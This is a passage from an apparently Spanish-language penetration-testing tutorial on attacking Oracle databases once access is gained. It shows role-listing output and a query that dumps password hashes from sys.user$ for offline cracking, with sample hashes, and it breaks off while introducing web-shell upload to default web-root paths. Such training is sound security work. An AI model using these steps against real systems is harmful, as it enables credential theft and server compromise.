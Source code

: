 ```r
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

Podemos seguir muchos enfoques una vez que tenemos acceso a una base de datos Oracle. Depende mucho de la información que tenemos y de toda la configuración. Sin embargo, no podemos agregar nuevos usuarios ni hacer modificaciones. Desde este punto, podríamos recuperar los hashes de contraseñas del `sys.user$` e intentar descifrarlos sin conexión. La consulta para esto se vería como la siguiente:

### Oracle RDBMS - Extraer Hashes de Contraseñas

```r
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Otra opción es subir un shell web al objetivo. Sin embargo, esto requiere que el servidor ejecute un servidor web y necesitamos conocer la ubicación exacta del directorio raíz para el servidor web. No obstante, si sabemos qué tipo de sistema estamos manejando, podemos intentar con las rutas predeterminadas, que son:
